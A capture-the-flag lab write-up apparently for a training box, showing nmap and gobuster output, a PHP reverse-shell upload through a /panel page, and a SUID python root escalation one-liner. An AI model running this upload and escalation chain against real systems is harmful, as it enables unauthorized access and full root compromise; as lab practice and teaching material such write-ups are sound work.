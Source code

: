 
# NMAP

-> Standard Port scan res:

```BASH
└─$ nmap -T5 -A 10.10.242.137 -oN nmapScanStanrds.xml                  
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-27 17:15 IST
Warning: 10.10.242.137 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.10.242.137
Host is up (0.28s latency).
Not shown: 930 closed tcp ports (reset), 68 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HackIT - Home
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.15
OS details: Linux 4.15
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 256/tcp)
HOP RTT       ADDRESS
1   203.83 ms 10.23.0.1
2   203.76 ms 10.10.242.137

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.72 seconds
```

-> All Ports scan res:

```bash 
# Nmap 7.95 scan initiated Fri Jun 27 17:17:19 2025 as: /usr/lib/nmap/nmap --privileged -T5 -p- -oN nmapScanFull.xml 10.10.242.137
Warning: 10.10.242.137 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.10.242.137
Host is up (0.18s latency).
Not shown: 64700 closed tcp ports (reset), 833 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

# Nmap done at Fri Jun 27 17:27:20 2025 -- 1 IP address (1 host up) scanned in 600.57 seconds

```

-> Dirbusting with Gobuster:

```bash
└─$ gobuster dir -u 10.10.242.137 -w /home/pwn3r/hell/SecLists-master/Discovery/Web-Content/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.242.137
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /home/pwn3r/hell/SecLists-master/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/css                  (Status: 301) [Size: 312] [--> http://10.10.242.137/css/]
/index.php            (Status: 200) [Size: 616]
/js                   (Status: 301) [Size: 311] [--> http://10.10.242.137/js/]
/panel                (Status: 301) [Size: 314] [--> http://10.10.242.137/panel/]
/server-status        (Status: 403) [Size: 278]
/uploads              (Status: 301) [Size: 316] [--> http://10.10.242.137/uploads/]
Progress: 4750 / 4750 (100.00%)
===============================================================
Finished
===============================================================
```

-> we have `/panel` and `/uploads` dirs that can be used for uploading shell (php(php5 worked here)) and access from uploads subsequently.

> Note: Why PHP shell?, i dunno although Wappalyzer didn't work for server script but its most typical CTF challenge style where they have php shell technique to gain initial hold. Nevertheless we can ask from GPT as we found server atleast.
> ![[Pasted image 20250627175610.png]]


-> `/panel`

![[Pasted image 20250627175001.png]]

-> `/uploads`

![[Pasted image 20250627174911.png]]

-> got revere shell

![[Pasted image 20250627175045.png]]

-> user.txt

![[Pasted image 20250627175303.png]]

-> upgrading shell

![[Pasted image 20250627180242.png]]

-> escalating privilege

![[Pasted image 20250627181557.png]]

-> fortunately we have SUID bit set in python(/usr/bin/python), and rest is on GTFOBINS.

![[Pasted image 20250627181644.png]]

![[Pasted image 20250627181702.png]]

-> Payload: `/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'`

![[Pasted image 20250627181852.png]]

-> root flag

![[Pasted image 20250627181346.png]]

